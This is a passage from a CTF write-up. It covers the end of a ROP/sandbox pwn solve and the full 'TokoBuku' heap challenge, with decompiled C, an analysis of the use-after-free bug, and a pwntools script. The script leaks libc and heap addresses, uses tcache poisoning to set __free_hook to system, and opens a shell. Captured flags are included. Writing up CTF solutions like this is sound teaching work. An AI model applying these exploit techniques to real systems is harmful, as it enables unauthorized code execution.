        rop.read() # to control eax
        rop.raw(mov_edi_eax) # edi = eax = fd 3
        rop.read()
        rop.rbp = elf.bss(0x138) + 8
        rop.raw(elf.sym["sandbox"] + 581) # pivot again to sandbox+581
        rop.raw(elf.bss(0xc0)) # rbp = bss+0xc0 which contains flag read
        rop.puts()
        rop.puts()
        rop.puts()

        payload = flat({offset:[elf.bss(0x110), rop.chain()]}, filler=b"\x00")
        s(payload)
        sleep(0.1)
        debug()
        s(b"\x00"*3) # to make eax = 3
    leak("sandbox + 585", hex(mov_edi_eax))
    leak("Elf bss", hex(elf.bss()))
    leak("ELF base address", hex(elf.address)) if elf.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`WRECKIT60{4bs0lut3_c1n3m4}`

# Pwn - TokoBuku

## Introduction 



## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static int sub_1209(void) {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    return setvbuf(stderr, NULL, _IONBF, 0);
}

static int sub_1277(void) {
    puts("toko buku itoid");
    puts("1. masukan buku di rak");
    puts("2. buang buku di suatu rak");
    puts("3. lihat judul buku");
    puts("4. ganti buku di rak");
    puts("5. cukup");
    return puts("pilihan: ");
}

static unsigned long long sub_12D6(void **racks_base) {
    size_t idx = 0;
    size_t size = 0;

    printf("nomor rak (1-8): ");
    if (scanf("%zu", &idx) != 1) return 0;
    if (idx && idx <= 8) {
        idx--; // convert 1..8 -> 0..7
        printf("ukuran buku: ");
        if (scanf("%zu", &size) == 1 && size) {
            void **slot = &racks_base[idx];
            *slot = malloc(size);
            printf("judul buku: ");
            scanf("%39s", (char *)(*slot));
            puts("dah");
        } else {
            puts("ukuran tidak valid!");
        }
    } else {
        puts("itu rak yang mana?");
    }
    return 0;
}

static unsigned long long sub_1419(void **racks_base) {
    size_t idx = 0;

    printf("nomor rak (1-8): ");
    if (scanf("%zu", &idx) != 1) return 0;
    if (idx && idx <= 8) {
        idx--; // 0..7
        if (racks_base[idx]) {
            free(racks_base[idx]);
            puts("buku dah dibuang");
        } else {
            puts("rak kosong!");
        }
    } else {
        puts("itu rak yang mana?");
    }
    return 0;
}

static unsigned long long sub_14F7(void **racks_base) {
    size_t idx = 0;

    printf("nomor rak (1-8): ");
    if (scanf("%zu", &idx) != 1) return 0;
    idx--; // original code decremented without validating range
    char *s = (char *)racks_base[idx];  // may be out-of-bounds if user enters 0 or >8 (preserved)
    if (s) {
        printf("judul buku: ");
        puts(s);
    } else {
        puts("rak kosong");
    }
    return 0;
}

static unsigned long long sub_15AE(void **racks_base) {
    size_t idx = 0;

    printf("nomor rak (1-8): ");
    if (scanf("%zu", &idx) != 1) return 0;
    if (idx && idx <= 8) {
        idx--; // 0..7
        printf("judul buku baru: ");
        scanf("%39s", (char *)racks_base[idx]);
        puts("buku dah diganti");
    } else {
        puts("itu rak yang mana?");
    }
    return 0;
}

int main(void) {

    void *racks[10];
    for (int i = 0; i < 10; ++i) racks[i] = NULL;
    memset(racks, 0, 8 * 8); // zero only the first 8 entries (as in original)
    sub_1209(); // unbuffered IO like original
    while (1) {
        int choice = 0;
        sub_1277();
        if (scanf("%d", &choice) != 1) {
            // If input is not an int, consume and continue
            int c;
            while ((c = getchar()) != '\n' && c != EOF) { /* flush */ }
            puts("...");
            continue;
        }
        switch (choice) {
            case 1:
                sub_12D6(racks);
                break;
            case 2:
                sub_1419(racks);
                break;
            case 3:
                sub_14F7(racks);
                break;
            case 4:
                sub_15AE(racks);
                break;
            case 5:
                return 0;
            default:
                puts("...");
                break;
        }
    }
}
```

## Summary

There is no null free address so we can just leak libc, and heap by freeing, then do tcache poisoning to `__free_hook` -> `system` after that free chunk contain string /bin/sh

## Solution

Given a file binary toko_buku. When decompiled and analyzed, the src code uses CRUD (Create, Read, Update, Delete) and is a heap problem.


When analyzing the vulnerability in this source code, there is UAF, and the free pointer is not nulled.

```C
unsigned long long sub_1419(void **racks_base) {
    size_t idx = 0;

    printf("nomor rak (1-8): ");
    if (scanf("%zu", &idx) != 1) return 0;
    if (idx && idx <= 8) {
        idx--; // 0..7
        if (racks_base[idx]) {
            free(racks_base[idx]); //vuln
            puts("buku dah dibuang");
        } else {
            puts("rak kosong!");
        }
    } else {
        puts("itu rak yang mana?");
    }
    return 0;
}
```

So, to solve this problem, we need to leak libc addresses. Simply allocate a large size and a small size, the guard, so that when free, it goes into unsorted bins. Then, create a heap address that can be freed twice. Then, I clean the bins with the same allocated size.

The attack i choose can be done using `__free_hook` because the libc version used is old, 2.31. Simply perform tcache poisoning on `__free_hook` and then free the heap address containing /bin/sh


### Solve Script

```python
#!/usr/bin/env python3
from ctypes import CDLL
from subprocess import Popen, PIPE
from pwncli import *
import sys
# =========================================================
#                          SETUP                         
# =========================================================
exe = './tokobuku_patched'
elf = context.binary = ELF(exe, checksec=False)
libc = elf.libc
# libc = './libc.so.6'
# libc = ELF(libc, checksec=False)
# libc = CDLL("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]

gdbscript = '''
init-pwndbg
# set architecture aarch64
# target remote :5000
c
'''.format(**locals())

def is_ipv4(s):
    return len(s.split('.')) == 4 and all(p.isdigit() and 0 <= int(p) <= 255 for p in s.split('.'))

def is_domain(s):
    return all(part.isalnum() or part == '-' for part in s.split('.'))

def is_port(s):
    return s.isdigit() and 0 <= int(s) <= 65535

def use_ip():
    return len(sys.argv) >= 3 and (is_ipv4(sys.argv[1]) or is_domain(sys.argv[1])) and is_port(sys.argv[2])

def initialize(argv=[]):
    global pid
    update_checksec() 
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = process(["pgrep", "-fx", "/app/run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        host, port = ("143.198.215.203", 20040) if len(sys.argv) < 4 else (sys.argv[2], int(sys.argv[3]))
        return remote(host, port, ssl=False)
    elif use_ip():
        context.log_level = 'info'
        host, port = str(sys.argv[1]), int(sys.argv[2])
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv)

def execute(cmds, verbose=False):
    cmds = cmds if isinstance(cmds, list) else cmds.split()
    if verbose:
        sys.stdout.write("\n")
        sys.stdout.flush()
        p = Popen(cmds, stdout=PIPE, stderr=sys.stdout, text=True, bufsize=1)
        buf = []
        for line in p.stdout:
            sys.stdout.write(line)   # live output (colors intact)
            sys.stdout.flush()
            buf.append(line)         # keep copy
        p.wait()
        return "".join(buf)
    else:
        p = Popen(cmds, stdout=PIPE, stderr=PIPE, text=True)
        out, err = p.communicate()
        return out if out else err

def debug():
    global gdbscript, pid
    if ((not args.REMOTE and not args.GDB) or (args.QEMU and args.GDB)) and not (use_ip()):
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:   
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe=exe)
        else:
            attach(io, gdbscript=gdbscript)

def update_checksec():
    marker = "CHECKSEC"
    fn = sys.modules[__name__].__file__
    with open(fn, "r+", encoding="utf-8") as f:
        src = f.read()
        i = src.find(marker)
        i = src.find(marker, i + 1)
        i = src.find("\n", i)
        i = src.find("\n", i + 1)
        start = i + 1
        end = src.find("\n", start)
        if end == -1: 
            end = len(src)
        if src[start:end].strip() == "":
            output = execute("checksec --file {}".format(exe))
            commented = "".join(("# " + line + "\n") if line.strip() else "#" for line in output.splitlines())
            src = src[:start] + commented + src[end:]
            f.seek(0); f.write(src); f.truncate()

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
se      = lambda data               :str(data).encode()
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num, drop=True  :u64(io.recvuntil(data, drop)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         CHECKSEC
# =========================================================
# [*] '/home/kali/Windows/Wreck IT 6.0 CTF/tokobuku/tokobuku_patched'
#     Arch:       amd64-64-little
#     RELRO:      Full RELRO
#     Stack:      Canary found
#     NX:         NX enabled
#     PIE:        PIE enabled
#     RUNPATH:    b'.'
#     SHSTK:      Enabled
#     IBT:        Enabled

# =========================================================
#                         EXPLOITS
# =========================================================
def menu(choice):
    sla(": ", se(choice))

def alloc(idx, size, data):
    menu(1)
    sla(": ", se(idx))
    sla(": ", se(size))
    sla(": ", data)

def free(idx):
    menu(2)
    sla(": ", se(idx))

def view(idx):
    menu(3)
    sla(": ", se(idx))
    ru(": ")

def edit(idx, data):
    menu(4)
    sla(": ", se(idx))
    sla(": ", data)

def exploit(x):
    global io
    io = initialize()
    # Code here ...
    debug()
    with log.progress("Leaking address & clean the bins"), context.silent:
        alloc(1, 0x428, b"A") # 1
        alloc(2, 0x18, b"B") # 2
        alloc(3, 0x18, b"B") # 3        
        free(1) # Unsorted bins
        free(2)
        free(3) # Heap address
        view(1) # Leak libc
        libc_leak = uu64(b"\n", 8)
        libc.address = libc_leak - libc.sym["main_arena"] - 96
        view(3) # Leak heap
        heap_leak = uu64(b"\n", 8)
        heap_base = heap_leak & ~0xfff
        # clean bins
        alloc(1, 0x428, b"A") # 1
        alloc(2, 0x18, b"B") # 2
        alloc(3, 0x18, b"B") # 3
    leak("Heap leak", hex(heap_leak))
    leak("Heap base", hex(heap_base))
    leak("Libc leak", hex(libc_leak))
    leak("Libc base address", hex(libc.address)) if libc.address else None
    with log.progress("Overwriting __free_hook with system with tcache poisoning"), context.silent:
        free(2) 
        free(3) # victim
        edit(3, p64(libc.sym["__free_hook"])) # point to __free_hook
        alloc(2, 0x18, b"/bin/sh\x00")
        alloc(3, 0x18, p64(libc.sym["system"])) # __free_hook = system
        free(2) # free /bin/sh
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```

### Flag

`WRECKIT60{t0k0_buku_1t01d_m4nt4p_s3k4l111!!!!!_h4h4h4h4h4}`